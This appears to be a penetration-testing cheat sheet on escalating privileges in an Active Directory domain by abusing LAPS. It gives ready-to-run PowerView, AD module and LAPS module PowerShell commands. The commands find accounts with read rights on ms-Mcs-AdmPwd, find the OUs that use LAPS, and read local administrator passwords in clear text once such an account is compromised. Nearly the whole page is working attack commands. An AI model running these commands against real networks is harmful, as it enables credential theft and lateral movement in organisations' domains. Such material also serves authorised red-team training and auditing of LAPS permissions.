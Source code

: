 # 3 LAPS

## Domain Privilege Escalation \[ LAPS ]

## Methodology/Steps

> 1. Identify the user who can read the LAPS creds
> 2. Identify the OU where LAPS is implemented and which user can read it
> 3. After compromising the user who can read the LAPS, read the creds

***

## PowerView

### 1. To find users who can read the passwords in clear text machines in OUs

```powershell
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | Where-Object {($_.ObjectAceType -like 'ms-Mcs-AdmPwd') -and ($_.ActiveDirectoryRights -match 'ReadProperty')} | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_}
```

### 2. To enumerate OUs where LAPS is in use along with users who can read the passwords in clear text

```powershell
# Using Active Directory module
.\Get-LapsPermissions.ps1

# Using LAPS module (can be copied across machines)
Import-Module C:\AD\Tools\AdmPwd.PS\AdmPwd.PS.psd1
Find-AdmPwdExtendedRights -Identity OUDistinguishedName
```

### 3. Once we compromise the user which has the Rights, use the following to read clear-text password

```powershell
# Powerview
Get-DomainObject -Identity <identity> | select - ExpandProperty ms-mcs-admpwd

# Active Directory module
Get-ADComputer -Identity <identity> -Properties ms-mcs-admpwd | select -ExpandProperty ms-mcs-admpwd

# LAPS module
Get-AdmPwdPassword -ComputerName <computrt-name>
```
